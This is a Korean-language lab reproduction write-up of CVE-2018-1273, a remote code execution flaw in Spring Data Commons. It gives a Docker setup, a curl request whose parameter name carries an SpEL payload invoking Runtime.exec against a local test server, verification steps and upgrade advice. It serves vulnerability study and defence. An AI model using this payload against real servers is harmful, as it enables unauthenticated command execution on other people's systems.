


# CVE-2018-1273: Spring Data Commons SpEL Injection 원격 코드 실행

<br/>

## 1. 개요

Spring Data Commons는 Spring Data 하위 프로젝트 전반이 공유하는 기반 프레임워크로, property 바인딩과 projection 기반 요청 처리를 담당한다.

이 취약점은 property 바인더가 요청 파라미터의 key를 별도 검증 없이 SpEL(Spring Expression Language) 표현식으로 그대로 평가하면서 발생한다. Spring Data REST가 노출하는 HTTP 리소스나 projection 기반 바인딩을 사용하는 엔드포인트라면, 공격자는 인증 절차 없이 파라미터 키에 SpEL 표현식을 실어 보낼 수 있다. 이 표현식은 내부적으로 #this 컨텍스트와 reflection을 이용해 java.lang.Runtime.getRuntime().exec()를 호출하며, 결과적으로 서버 측에서 임의의 OS 명령을 실행시킨다.

## 2. 환경 구성

Spring Data Commons 2.0.5 취약 환경을 실행한다.

```bash
docker compose up -d
```

정상적으로 실행되었는지 `docker compose ps`로 확인할 수 있고, 브라우저에서 `http://localhost:8080/users`에 접속하면 회원가입 페이지가 뜬다.



## 3. 취약 조건

```
1. Spring Data Commons 1.13 ~ 1.13.10 / 2.0 ~ 2.0.5 버전을 사용한다.
2. HTTP 요청 파라미터 이름을 그대로 SpEL로 파싱하는 기능이 열려 있다.

```
## 4. 재현 절차 및 PoC 코드

아래 curl 명령어를 실행하여 /users 엔드포인트로 SpEL 페이로드가 포함된 POST 요청을 전송한다.

```curl -X POST "http://localhost:8080/users?page=&size=5" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode 'username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=' \
  --data-urlencode 'password=' \
  --data-urlencode 'repeatedPassword='

또는 동일한 요청을 PoC 스크립트로 전송한다.

```bash
python3 poc.py https://localhost:8080
```

## 5. 결과 확인

요청이 정상적으로 처리되면 아래와 같이 HTTP 500 응답을 확인할 수 있다.




이후 컨테이너 내부에 접속하여 `/tmp/success` 파일이 생성되었는지 확인한다.

```bash
docker compose exec spring bash
ls -al /tmp/success
```


## 6. 대응 방안

1. Spring Data Commons: 2.0.x → 2.0.6 이상, 1.13.x → 1.13.11 이상으로 버전을 업그레이드한다.
2. 요청 파라미터에 SpEL 표현식이나 특수 문자가 포함되지 않도록 입력값을 검증하고, 허용된 형식만 처리하도록 구현한다. 또한 사용자 입력을 그대로 객체에 바인딩하지 않도록 하여 SpEL Injection 발생 가능성을 줄인다.

## 7. 참고 자료

https://spring.io/security/cve-2018-1273
https://nvd.nist.gov/vuln/detail/cve-2018-1273
